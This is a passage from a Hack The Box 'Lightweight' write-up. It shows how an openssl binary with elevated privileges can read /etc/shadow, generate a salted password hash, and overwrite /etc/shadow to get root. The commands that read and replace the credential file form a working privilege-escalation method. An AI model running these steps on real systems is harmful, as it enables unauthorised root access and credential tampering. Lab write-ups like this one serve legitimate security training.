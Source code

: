`base64 -d root.txt.b64`
![](/images/hackthebox/lightweight/27.png)
#### We can also get a root shell by overwriting `/etc/passwd` or `/etc/shadow`. I got a copy of the original `shadow` file first :
`./openssl enc -base64 -in /etc/shadow -out ./shadow.b64`
<br>
<br>
`base64 -d shadow.b64 > shadow`
<br>
<br>
![](/images/hackthebox/lightweight/28.png)
#### I used `openssl` to create a salted password. I used `root` as the salt and `rick` as the password :
`openssl passwd -1 -salt root rick`
![](/images/hackthebox/lightweight/29.png)
#### Then I edited the copy I have of `/etc/shadow` and replaced the root password with the new one :
![](/images/hackthebox/lightweight/30.png)
#### And finally I used `openssl` to replace the old `/etc/shadow` with the new one and after that we can do `su root` with the password `rick`:
`./openssl enc -in shadow -out /etc/shadow`